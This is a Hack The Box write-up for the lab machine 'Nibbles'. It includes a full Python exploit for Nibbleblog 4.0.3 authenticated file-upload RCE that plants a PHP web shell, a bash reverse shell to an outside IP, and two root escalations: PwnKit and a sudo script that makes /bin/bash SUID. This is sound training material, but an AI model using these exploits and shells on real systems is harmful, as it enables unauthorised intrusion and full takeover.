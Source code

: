 ```yaml
---
layout: single
title: Nibbles - Hack The Box
excerpt: "Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most."
date: 2025-05-31
classes: wide
header:
  teaser: /img2/nibbles.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Abusing Nibbleblog - Remote Code Execution via File Upload
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - Abusing Sudoers Privilege [Privilege Escalation] (OPTION 2)
---
```



## Reconnaissance

- Nmap

```bash
nmap --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.75
```

![](/img2/Pasted%20image%2020250531145003.png)

- Hidden directory

![](/img2/Pasted%20image%2020250531145217.png)

- Whatweb 

```bash
whatweb http://10.10.10.75/nibbleblog/
```

![](/img2/Pasted%20image%2020250531145330.png)

- Gobuster

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

![](/img2/Pasted%20image%2020250531164602.png)

![](/img2/Pasted%20image%2020250531165907.png)

![](/img2/Pasted%20image%2020250531165953.png)

![](/img2/Pasted%20image%2020250531170043.png)

- Gobuster to search php files

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php
```

![](/img2/Pasted%20image%2020250531170158.png)

## Exploitation

- Test passwords in admin panel

![](/img2/Pasted%20image%2020250531184844.png)

> We can test: admin, nibble, nibbleblog, nibbles.

> Password --> nibbles

- Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution (RCE) (CVE 2015-6967)

```python
import argparse
import requests

class Nibbleblog():
    def __init__(self,target,username,password,rce):
        self.target = target
        self.username = username
        self.password = password
        self.cmd = rce
        self.upload()

    def upload(self):
        requests.packages.urllib3.disable_warnings()
        payload = "<?php echo system($_REQUEST['rse']); ?>"
        session = requests.Session()
        login_data = {
            'username':self.username,'password':self.password,'login':''
        }
        print("Loggin in to " + self.target)
        req_url_login = session.post(self.target,data=login_data,verify=False)
    
        file_data = {
            "plugin":"my_image",
            "title":"blah",
            "position":"4",
            "caption":"test",
        }

        file_content = {
            'rse':('rse.php',payload,'application/x-php',{'Content-Disposition':'form-data'}),
        }

        url_upload = self.target + "?controller=plugins&action=config&plugin=my_image"
        req_url_upload = session.post(url_upload,data=file_data,files=file_content,verify=False)
        if req_url_upload.status_code == 200:
            print("Logged in and was able to upload exploit!")
            self.rce()
        else:
            print("Something went wrong with the upload!")
            exit()

    def rce(self):
        requests.packages.urllib3.disable_warnings()
        url_shell = self.target.replace("/admin.php","/content/private/plugins/my_image/rse.php")
        print("Payload located in " + url_shell)
        if args.shell:
            while True:
                try:
                    cmd = input("RCE: ")
                    
                    rce_data = {
                        'rse':cmd
                    }
                    req_url_rce = requests.post(url_shell,data=rce_data,verify=False)
                    print(req_url_rce.text)
                except KeyboardInterrupt:
                    print("Bye Bye\n")
                    exit()

        if args.rce:
            rce_data = {
                'rse':self.cmd
            }
            req_url_rce = requests.post(url_shell,data=rce_data,verify=False)
            print(req_url_rce.text)

if __name__ == "__main__":
    print("Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution")
    parser = argparse.ArgumentParser(description='Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution')

    parser.add_argument('-t', metavar='<Target admin URL>', help='admin target/host URL, E.G: http://nibblesrce.com/blog/admin.php', required=True)
    parser.add_argument('-u', metavar='<user>', help='Username', required=True)
    parser.add_argument('-p', metavar='<password>', help="Password", required=True)
    parser.add_argument('-rce', metavar='<Remote Code Execution>', help='-rce whoami', required=False)
    parser.add_argument('-shell',action='store_true',help='Pseudo-Shell option for continous rce', required=False)
    args = parser.parse_args()

    Nibbleblog(args.t,args.u,args.p,args.rce)
```

```bash
python3 exploit.py -t http://10.10.10.75/nibbleblog/admin.php -u admin -p nibbles -rce whoami
```

![](/img2/Pasted%20image%2020250531185738.png)

- Manual Explotation

```php
<?php
  system("whoami"); 
?>
```

![](/img2/Pasted%20image%2020250531190847.png)

![](/img2/Pasted%20image%2020250531191028.png)

- Send reverse shell

![](/img2/Pasted%20image%2020250531190847.png)

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.16.7/9000 0>&1'");
?>
```

![](/img2/Pasted%20image%2020250531191751.png)

```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find sudoers

```bash
find / -perm -4000 2>/dev/null 
```

![](/img2/Pasted%20image%2020250531193152.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250601173610.png)

- Check /home/nibbler/personal/stuff/monitor.sh file

```bash
cat /home/nibbler/personal/stuff/monitor.sh
```

![](/img2/Pasted%20image%2020250601173714.png)

> No such file

- Create monitor.sh

```bash
mkdir -p /home/nibbler/personal/stuff && echo "chmod u+s /bin/bash" > /home/nibbler/personal/stuff/monitor.sh && chmod +x /home/nibbler/personal/stuff/monitor.sh && sudo /home/nibbler/personal/stuff/monitor.sh && bash -p
```


![](/img2/Pasted%20image%2020250531192853.png)